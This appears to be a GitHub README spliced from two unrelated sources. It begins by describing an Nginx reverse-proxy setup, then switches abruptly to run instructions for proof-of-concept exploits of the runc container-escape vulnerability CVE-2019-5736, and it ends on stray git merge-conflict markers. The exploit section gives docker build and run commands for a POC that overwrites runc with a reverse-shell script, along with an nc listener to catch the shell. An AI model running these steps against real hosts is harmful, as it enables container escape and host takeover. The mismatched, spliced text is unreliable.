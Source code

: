 # Nginx-Proxy

### Why proxy ?
A reverse proxy intercepts incoming requests and directs them to the appropriate server. Not only does this speed up performance, it also strengthens server security.

### docker-compose file
This repository includes certificates & conf files each domain. These are mounted to nginx-proxy,
```sh
    volumes:
      - ./conf:/etc/nginx/conf.d
      - ./certificates:/etc/nginx/certificates
```

Clone the repository:
```sh
$ git clone git@github.com:BBRathnayaka/RunC-CVE-2019-5736.git
```

### Exec POC
Overwrites runc with a simple program that prints a string.

Running the exec POC:
```sh
$ docker build -t cve-2019-5736:exec_POC ./RunC-CVE-2019-5736/exec_POC
$ docker run -d --rm --name poc_ctr cve-2019-5736:exec_POC
$ docker exec poc_ctr bash
```
### Malicious Image POC
Overwrites runc with a simple reverse shell bash script that connects to localhost:2345.

Listen for the reverse shell:
```sh
$ nc -nvlp 2345
```

From a different shell, run the malicious image POC:
```sh
$ docker build -t cve-2019-5736:malicious_image_POC ./RunC-CVE-2019-5736/malicious_image_POC
$ docker run --rm cve-2019-5736:malicious_image_POC
```
#### Reference
```
See [Twistlock Labs](https://www.twistlock.com/labs-blog/breaking-docker-via-runc-explaining-cve-2019-5736/ "Explaining CVE-2019-5763") for an explanation of CVE-2019-5736 and the POCs.

The malicious image POC is heavily based on [q3k’s POC](https://github.com/q3k/cve-2019-5736-poc), so all credit goes to him.
```


=======
>>>>>>> 6336d8e5c8c9804aaeb076ad1fbea1975a3cae6f
